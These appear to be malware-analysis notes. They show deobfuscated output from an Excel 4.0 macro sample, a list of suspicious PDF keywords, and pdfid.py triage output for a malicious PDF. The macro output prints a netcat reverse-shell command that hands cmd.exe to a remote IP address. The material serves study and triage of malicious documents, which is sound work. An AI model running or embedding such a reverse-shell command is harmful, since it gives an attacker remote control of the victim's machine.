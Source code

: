 ```
[Loading Cells]
[Starting Deobfuscation]
There is no entry point, please specify a cell address to start
Example: Sheet1!A1
Macro1!A1
CELL:A1, PartialEvaluation   , EXEC("nc -nv 192.168.5.128 1111 -e cmd.exe")
CELL:A2, PartialEvaluation   , RETURN()
[END of Deobfuscation]
time elapsed: 5.66940808296203
```

# PDF Analysis
## Interesting PDF keywords
1. /OpenAction
2. /AA
3. /Javascript
4. /JS
5. /Names
6. /EmbeddedFile
7. /URI
8. /SubmitForm
9. /Launch
10. /ASCIIHexDecode
11. /LZWDecode
12. /FlateDecode
13. /ASCII85Decode
14. /Crypt

## pdfid.py
```
remnux@siftworkstation: ~/Work
$ pdfid.py badpdf.pdf 
PDFiD 0.2.1 badpdf.pdf
 PDF Header: %PDF-1.3
 obj                   14
 endobj                14
 stream                 2
 endstream              2
 xref                   1
 trailer                1
 startxref              1
 /Page                  1
 /Encrypt               0
 /ObjStm                0
 /JS                    2
 /JavaScript            3
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          0
 /XFA                   0
 /Colors > 2^24         0
```

